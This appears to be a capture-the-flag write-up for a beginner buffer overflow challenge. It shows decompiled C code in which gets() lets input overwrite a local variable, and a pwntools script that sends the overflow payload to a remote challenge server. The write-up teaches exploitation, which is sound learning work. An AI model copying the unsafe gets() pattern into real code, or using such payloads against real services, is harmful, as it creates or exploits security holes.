 ![problem statement](problem-statement.png)

Opened the binary file in ghidra to find the following functions (some types and variables are renamed for better understanding):
```c

void anyaforger(void)
{
  printf("BDSEC{find_the_flag_in_the_server}");
  exit(0);
}

void vuln(void)
{
  char buff [32];
  uint secret;
  
  secret = 0x12345678;
  printf("Enter the secret word: ");
  fflush(_stdout);
  gets(buff);
  if (secret == 0xdeadbeef) {
    anyaforger();
    fflush(_stdout);
    return;
  }
  puts("Sorry, that\'s not the secret word.");
  exit(1);
}

int main(void)
{
  banner(&stack0x00000004);
  puts(
      "she is a telepath whose abilities were created in an experiment conducted by an unknown organ ization "
      );
  fflush(_stdout);
  vuln();
  return 0;
}
```

As we can see, all we have to do is somehow get `secret` to equal `0xdeadbeef` and we will get the flag. The problem is that `secret` is a local variable and we can't access it directly. However, if we look at the stack frame of the `vuln` function, we can see that `secret` is located right after `buff`:

![stack frame](vuln-stack-frame.png)

Now if we look at `vuln`, we can see that it calls `gets` on `buff` without any bounds checking. This means that we can overflow `buff` and overwrite `secret` with `0xdeadbeef`. To do this, we can use the following python script (using the `pwntools` python library):
```python
from pwn import *

# io = process('./beef')
io = remote('139.144.184.150', 31337)
io.recvuntil(b'Enter the secret word: ')
io.sendline(b'A'*32 + p64(0xdeadbeef))
print(io.recvall().decode())
```
